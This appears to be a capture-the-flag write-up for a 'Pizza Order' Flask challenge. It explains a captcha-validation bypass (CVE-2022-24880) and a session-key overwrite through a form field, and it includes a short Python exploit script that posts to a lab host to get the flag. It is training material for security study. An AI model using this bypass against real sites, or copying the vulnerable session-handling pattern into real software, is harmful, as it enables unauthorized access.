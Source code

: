 # Pizza Order
![date](https://img.shields.io/badge/date-24.01.2023-brightgreen.svg) 

## Challenge
Bad news, the local pizza dealer has implemented some sort of new captcha mechanism which seems impossible to solve, can you help us order pizza?

http://10.212.138.23:48575

Flag format: S2G{...}

## Solution
The website is a Flask application that lets users order pizza. However, the captcha is impossible to read, and hence, ordering pizza becomes impossible. So to solve this challange we need to bypass both captcha and payment.

The application is using flask-session-captcha version 1.2.0. This version has a captcha validate bypass vulnerability, [CVE-2022-24880](https://github.com/advisories/GHSA-7r87-cj48-wj45).

The function `captcha.validate()` returns `None` if no value was passed. Since the challange checks `captcha.validate() == False`, the user could send a request with an empty form to bypass it.

Secondly, we want `if session['user_type'] == 'private':` to be false. That means we need to change the value of `session['user_type']` to something else. The user can set the cardholder-field to `user_type`, which will overwrite the previous value, and the website will spit out the flag.
```python
session[request.form.get('cardholder')] = {'card-number':request.form.get('cardNumber'),'expiration-date':request.form.get('expirationDate'), 'cvv':request.form.get('cvv')}
```
**Flag:** S2G{d41d8cd98f00b204e9800}

### Python
We need to specify the session cookie to validate the captcha, else we will recieve "Invalid captcha".

See [exploit.py](./exploit.py).
```python
import requests
import re

url = "http://10.212.138.23:48575"
headers = {
    "Cookie": "session=anything",
}

payload = {
    "cardholder": "user_type",
}

response = requests.post(url, headers=headers, data=payload)

pattern = re.search("S2G", response.text)
flag = pattern.group() + response.text[pattern.end():pattern.end()+24].strip()

print(flag)
```
